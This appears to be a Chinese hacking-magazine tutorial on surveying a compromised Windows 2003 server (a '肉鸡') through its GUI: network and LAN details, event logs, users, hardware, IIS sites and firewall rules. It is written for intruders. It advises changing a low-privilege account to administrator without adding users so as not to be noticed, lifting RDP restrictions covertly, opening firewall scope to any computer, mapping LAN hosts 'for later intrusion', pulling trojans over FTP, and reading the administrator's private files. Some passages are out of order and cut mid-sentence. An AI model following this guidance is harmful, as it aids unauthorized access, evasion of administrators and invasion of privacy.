所谓服务器外围信息，指的是服务器的网络环境、局域网环境、系统摘要信息等。了解这些信息后，我们就可以大概掌握服务器情况了。

进入管理网络连接的界面（图1）。

在这儿给出了当前系统所使用的网络连接，它可以是真实网卡连接，也可以是软件虚拟出来的虚拟网络连接（比如 VMware）。我们可以看到该服务器目前有三个网络连接，其中两个是灰色，代表目前没有被启用，“本地连接2”当前是启用的。我们在这儿操作时要千万小心，如果大家不是很懂，不要更改任何参数；如果造成服务器网络参数更改而断开连接，那么我们就不能再连接到服务器了，而且这样也会让管理员察觉。为了肉鸡的生命安全，这个地方一般还是尽量不动为好。

双击“本地连接2”进入管理界面（图2），从这里可以知道当前连接持续了多长时间。这个 16 天一般可视为开机时间，因为服务器一般存放在机房中，一开机网卡便开始工作并连入网络；如果网卡断开，服务器也就被网络隔离了。服务器一般情况下肯定与网络连通，所以基本可断定为开机时间。

当前连接速度为 100Mbps，指的是当前网络连接接口速度，并不是真正的网络连接速度，真正速度要看机房限制。如果服务器最高实际下载速度为 1M 左右，很有可能为 10M 独享带宽；如果最高为 12M 左右，很有可能为 100M 独享带宽；至于 100M 共享带宽，则要看服务器所处机柜有多少台服务器，不过速度最慢的一般都是 100M 共享带宽。界面中还显示了当前网络连接一共发送和接收了多少数据包，大家可以观察是发送包多还是接收包多。如果发送包多，则可能为 Web 服务器、下载服务器等，因为数据包一直在往外流。

切换到“支持”选项（图3），显示出了当前网络连接的一些参数，包括 IP 地址、子网掩码、默认网关等信息。但如果此网络连接有多个 IP 地址，就不能很好显示了，单击“详细信息”即可查看当前网络连接的全部参数，也可以显示配置的多个 IP 地址、子网掩码、默认网关等信息，还有此网络连接的 MAC 地址。如果其中 DNS 地址为空，服务器就不能解析外部域名，也就是说不能使用任何域名信息连接外部网络。比如不能在服务器上登录你的 FTP 下载木马，安装的 PcShare 之类使用了 FTP 更新或域名更新时也不能正常上线等等。

这个管理界面在 WIN2003 和 XP 中是非常有用的，不过在 WIN2000 中就差得很远了。在 WIN2000 中没有“状态”选项，那么如何查看当前网络连接参数呢？我们可以点击“属性”进入网络连接属性界面，得到当前网络连接所绑定的组件，比如 TCP/IP 协议、网络文件与打印机共享等信息。然后双击 TCP/IP 协议，或者选中 TCP/IP 协议后点击“属性”，进入“TCP/IP 协议”的属性界面（图4）。这里是设置“TCP/IP 协议”参数的地方，在 WIN2000 中也只能这样查看当前网络连接参数，还可以点击“高级”查看更多参数，比如查看是否配置了多个 IP 地址。

在“高级”选项中，除了“IP 设置”、“DNS”、“WINS”外，还有一个非常重要的“选项”（图5）。双击其中的“TCP/IP 筛选”或者选中“TCP/IP 筛选”后点击“属性”按钮。在此处可以设置全部网络适配器（网络连接）过滤哪些端口、放行哪些端口。看这台服务器，它只允许外部网络连接它的 21、80、3389 等几个端口，其它端口全部封锁。这种筛选的好处是随网络适配器（网络连接）一起启动，即使防火墙挂掉也没关系，外部照样不能建立非法连接。

返回桌面，双击“网上邻居”，然后点击“查看工作组计算机”（图6），可以查看与当前服务器处在同一局域网内的其它主机。如果服务器在内网中，就会看到多台主机。记住那些主机名，然后在 CMD 下输入“PING 主机名”，便可以得到局域网中其它主机的 IP 地址，方便以后的入侵。

在桌面右键点击“我的电脑”，选择“属性”，进入系统属性界面（图7）。这儿给出了服务器当前使用的操作系统版本 Windows 2003 Enterprise Server SP2，还给出了系统注册信息，并显示当前服务器配置信息，比如 CPU 为 Xeon（至强）2.5GHz、2G 内存等。再切换到“计算机名”选项（图8），查看当前服务器计算机名和工作组名称，一些 CMD 工具中常会用到这些信息。

#### 二、服务器管理信息

所谓服务器管理信息，指的是通过计算机管理界面所能搜集到的有关计算机管理的信息，比如系统工具、存储设备、服务和应用程序等。了解这些信息可以充分掌握服务器的各项管理情况。

在桌面右键点击“我的电脑”，选择“管理”，进入计算机管理界面（图9）。当前界面分为系统工具、存储、服务和应用程序三大项：

- 系统工具：主要用于查询日志信息、查看本地用户及用户组、查看当前计算机设备等。
- 存储：主要用于查看当前连接的各个外部存储设备，包括硬盘、移动硬盘、光驱等。
- 服务和应用程序：主要用于查看当前服务器运行的服务信息；如果运行了 MSSQL，还可以在这里方便地管理 MSSQL 服务。

“事件查看器”是 Windows 2000/XP/2003 中提供的一个系统安全监视工具。在事件查看器中，我们可以使用事件日志收集硬件、软件、系统等方面信息，并监视 Windows 系统安全。它不但可以查看系统运行日志文件、查看事件类型，还可以使用事件日志来解决系统故障等。

事件查看器根据来源将日志记录事件分为应用程序、安全和系统三个日志部分。应用程序日志（Application）包含应用程序或一般程序记录的事件，主要记载程序运行方面的信息（图10）。

安全日志（Security）可以记录有效和无效的登录尝试等安全事件，以及与资源使用有关的事件，比如创建、打开或删除文件，启动时某个驱动程序加载失败等。同时管理员还可以指定在安全日志中记录的事件，比如如果启用了登录审核，那么系统登录尝试就会记录在安全日志中。大家看图11，我通过远程登录的信息就这样被暴露无遗了。

系统日志（System）包含 Windows 系统组件记录的事件，比如系统日志中会记录启动期间要加载的驱动程序或其它系统事件。

组件的故障（图12）。

“本地用户和组”可以为用户和组分配权利和权限，从而限制用户和组执行哪些操作的能力。权利可授权用户在计算机上执行某些操作，如备份文件和文件夹或者关机。权限是与对象（通常是文件、文件夹或打印机）相关联的一种规则，它规定哪些用户可以访问该对象以及以何种方式访问。

有时当我们成功提权后，修改系统中存在的低权限用户至管理员组（不增加用户以防被发现），但是当登录3389时却会发现此账户被拒绝登录终端服务，提示说未授予远程登录的权限（图16）。




如果想使用远程桌面客户端直接在远程计算机和本地计算机之间传送文件的话，需要打开“用户属性”中的“环境”选项（图13），勾选上“登录时连接客户端驱动器”，然后再重新注销掉你登录的远程桌面，重新打开一个远程桌面程序，切换到“本地资源”选项（图14），勾选上“磁盘驱动器”。这样登录服务器的3389就可以看到自己当前使用的计算机的磁盘了（图15），可以轻松地实现远程计算机和本地计算机的文件传输，相当方便。






这个功能是怎么实现的，又该怎么解除呢？我们回到刚才的“用户属性”界面，切换到“终端服务配置文件”（图17），将“用户”中的“拒绝这个用户登录到任何的终端服务器”取消掉就可以了，这样管理员既不容易发现，我们又可以在服务器里面玩得高兴。

“设备管理器”可用来管理计算机上的设备（图18），可以用来查看和更改设备属性、更新设备驱动程序、配置设备设置和卸载设备。从这些信息中可以得知服务器的具体硬件配置，据此判断出这台服务器的价值如何。如上图所示，我可是好不容易才拿下这台2×4核心的至强CPU+2G内存的肉鸡的哟。

“磁盘管理”是一个用于管理硬盘以及硬盘所包含的卷或分区的系统实用工具（图19），使用它可以初始化磁盘、创建卷、使用FAT、FAT32或NTFS文件系统格式化卷，以及创建容错磁盘系统。通过“磁盘管理”，我们无需重新启动系统或中断用户，就可以执行多数与磁盘相关的任务。另外，大多数配置更改后将会立即生效。我们可以从磁盘管理界面中得到当前服务器所连接的所有外部存储设备、各个分区的大小及其使用情况等信息。

排序，一个个地进行排查。将其中有价值的网站挖掘出来，从服务器入侵网站是很简单的，简直是易如反掌。



## 二、服务器综合信息

所谓服务器综合信息，指的是通过计算机控制面板中的各个功能搜集到的有关计算机设置的信息，比如防火墙、应用程序、系统组件等信息。了解这些信息可以充分地掌握服务器的各项设置信息。


“服务”是一种在系统后台运行的应用程序类型，这与UNIX后台应用程序类似（图20）。它提供操作系统的核心功能，例如Web服务、事件日志、文件服务、帮助和支持、打印、加密以及错误报告。可以使用服务管理单元管理本地或远程计算机上的服务。可以通过系统运行的服务来确定系统中运行的程序、对外提供了哪些服务。


打开“开始”菜单，选择“设置”，然后点击“控制面板”进入控制面板的管理界面（图22）。双击“防火墙”便进入了Windows自带的防火墙设置界面（图23），如果服务器中没有安装诸如黑冰等其他防火墙的话，一般使用的就是Windows自带的防火墙。对防火墙设置进行操作的时候一定要小心，如果一个设置不当就有可能永远地丢失掉这肥肥的肉鸡了，我就丢失过好几台极品肉鸡，至今愤恨不已啊！


IIS其实也是一种服务（图21），不过由于其比较特殊，特将其独立为一个模块进行讲解。IIS也就是Internet Information Server（Internet信息服务），对外部提供WEB访问。从IIS服务中可以查询到当前服务器中运行着哪些网站，可以按主机头名称进行排序，一个个地进行排查。



“常规”选项中可以看到当前防火墙是否处于开启状态，切换到“例外”选项（图24），“例外”的意思就是哪些程序或者端口可以顺利地通过防火墙而不受阻拦。其中有两种添加模式：一种是“添加程序”，将程序添加为可信后，这个程序所开放的端口都不会被阻拦；另一种是“添加端口”，将端口信息添加上之后，这个固定端口就不会被阻拦，所有通过这个端口的数据都会被放行。


有时候我们会发现在某些端口明明在外网服务器的防火墙里设置为放行了，但在外网网络中还是连接不上，使用SuperScan也不能扫描到。其原因有以下两种可能：一是这台服务器有硬件防火墙在外部保护着；另一种便是服务器中的防火墙设置了端口的连接范围。双击“程序或服务”框中的任意一项，或者选择后点击“编辑”按钮，就会进入端口编辑界面（图25）。


我们就以终端服务来进行演示，被放行的端口为3389，连接范围为“子网”，意思就是只有IP地址和服务器在一个子网内的机器才能连接到这个TCP的3389端口上，其他机器连接的数据包都会被丢弃。点击“更改范围”就可以更改这个连接范围了，而且防火墙还支持特定的连接范围，比如“192.168.0.1”，那么就只有192.168.0.1这个IP地址才能连接这个端口；“192.168.0.1/255.255.255.0”，就是IP地址为192.168.0.X的机器才能连接这个端口。


当我们碰到这样的服务器时，可以将自己的IP地址添加进去，或者直接更改为“任何计算机”，这样Internet上的任何一台计算机都能连接到这个端口上了。切换到防火墙的“高级”选项（图26），这里设置了是否允许ICMP协议通信（例如PING），还可以设置当前防火墙的日志记录，方便查找日志文件。

“添加或删除程序”主要用于管理计算机上的程序（图27），可以添加新程序，或者更改或删除已有程序。通过它可以看到当前服务器安装了哪些软件，以及这些软件的用途。服务器中有时还会有一些无关紧要的软件。







在“添加或删除程序”的管理界面中点击“添加或删除Windows组件”便进入了组件管理界面（图28），在这里可以安装IIS、DNS、WINS、ASP.NET、DHCP等服务器组件。在这里我们可以了解到当前服务器安装了哪些服务器组件，可以用来确定这台服务器的厉害。在“控制面板”中双击“管理工具”即可进入管理工具组（图29），其中管理工具的多少要看服务器组件安装的多少，比如这台服务器就装有DNS、IIS、ASP.NET、终端服务等。

#### 四、服务器其他信息

在配置MySQL、PHP的时候，一般会在C盘的根目录建立很多相关的文件夹（图30），可以浏览C盘根目录下的目录来判断是否安装了这些服务。想要确定服务器到底安装了什么软件，还有一个好办法，就是直接去安装程序的老家（“C:\Program Files”）下查看（图31），所有安装在C盘的程序将会一览无遗，还可以进入程序目录来查看是否还有配置信息等等。浏览管理员的用户文件夹（“C:\Documents and Settings\Administrator”）可以查看管理员的开始菜单、文档、桌面及其收藏夹的内容（图32），了解管理员的动态。因为管理员一般会在其桌面放置一些常用的资料和工具，这些东西都是很隐私的哦！



不要小瞧任务管理器这个小东西，它可以显示当前服务器中运行的所有进程，还可以显示这些进程是由哪些用户运行的，还可以用来检查当前服务器所登录的所有用户。右键点击任务栏，选择“任务管理器”，切换到“用户”选项（图33）。从这里可以得知当前服务器连接了两个用户，用户名都为Administrator，其中一个用户为本地登录（Console），另外一个用户为远程登录（RDP-Tcp#1），“#1”为第一个通过远程登录的连接用户，而且可以看到远程登录计算机名为CASPER（我的机器）。想知道各个用户是何时登录的吗？只需要在CMD窗口中输入“Query User”就可以查看当前服务器中登录的用户信息了（图34），其中就包括了各个用户的登录时间。


